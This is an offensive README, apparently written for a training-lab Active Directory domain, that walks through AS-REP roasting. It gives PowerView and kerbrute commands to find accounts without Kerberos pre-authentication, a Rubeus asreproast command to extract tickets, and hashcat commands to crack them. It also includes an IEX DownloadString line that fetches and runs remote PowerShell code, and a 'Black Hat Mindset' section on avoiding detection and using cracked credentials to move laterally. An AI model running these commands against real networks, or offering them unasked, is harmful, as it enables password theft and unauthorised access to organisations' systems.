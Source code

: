 # Active Directory AS-REP Roasting README

This README focuses on exploiting accounts with the `DONT_REQ_PREAUTH` flag to extract AS-REP tickets and crack them offline for plaintext passwords.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Identifying Vulnerable Accounts](#identifying-vulnerable-accounts)
- [Performing AS-REP Roasting](#performing-as-rep-roasting)
- [Cracking AS-REP Tickets](#cracking-as-rep-tickets)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

AS-REP roasting targets Kerberos accounts with the `DONT_REQ_PREAUTH` flag, allowing attackers to request AS-REP tickets without initial authentication. These tickets, encrypted with the user's password hash, can be cracked offline. This guide uses PowerView, Rubeus, Hashcat, and kerbrute to identify and exploit these accounts.

## Setup and Prerequisites

- **Environment**: Windows host for PowerView and Rubeus; Linux host for Hashcat and kerbrute.
- **PowerView**: Load into memory on Windows (e.g., `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`).
- **Rubeus**: Download the executable on Windows (e.g., from its GitHub repo) and place in your working directory (e.g., `C:\Tools\`).
- **Hashcat**: Install on Linux (e.g., `apt install hashcat`) with a wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).
- **kerbrute**: Download the binary on Linux (e.g., from its GitHub repo) and place in your working directory (e.g., `/opt/`).
- **PowerShell**: Run with appropriate privileges on Windows (right-click > "Run as Administrator").
- **Network Access**: Ensure connectivity to the target domain controller (e.g., 172.16.5.5).
- **User List**: Prepare a file (e.g., `/opt/jsmith.txt`) with usernames to enumerate.

## Identifying Vulnerable Accounts

Find users with the `DONT_REQ_PREAUTH` flag.

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
Uses PowerView to search for accounts with the `DONT_REQ_PREAUTH` flag in the target domain, displaying samaccountname, userprincipalname, and useraccountcontrol (Windows host).

```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
Uses kerbrute to enumerate users in the inlanefreight.local domain and automatically retrieves AS-REP tickets for those without pre-authentication, using a user list from `/opt/jsmith.txt` (Linux host).

## Performing AS-REP Roasting

Extract AS-REP tickets for offline cracking.

```powershell
.Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```
Uses Rubeus to perform an AS-REP roasting attack on the mmorgan user, formatting the output for Hashcat without wrapping (Windows host).

## Cracking AS-REP Tickets

Crack the extracted tickets to reveal plaintext passwords.

```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
Uses Hashcat with mode 18200 (Kerberos 5 AS-REP) to crack the ilfreight_asrep hash file using the rockyou.txt wordlist (Linux host).

## Black Hat Mindset

- **Target Weak Accounts**: Focus on users with `DONT_REQ_PREAUTH` for easy ticket extraction.
- **Stay Undetected**: Perform roasting and cracking offline to avoid triggering Kerberos monitoring.
- **Optimize Cracking**: Use a strong wordlist like rockyou.txt to efficiently crack weaker passwords.
- **Expand Access**: Use cracked credentials to escalate privileges or move laterally.

## Resources

- [PowerView Documentation]()
- [Rubeus GitHub]()
- [Hashcat Documentation]()
- [kerbrute GitHub]()
- [AS-REP Roasting Explained]()

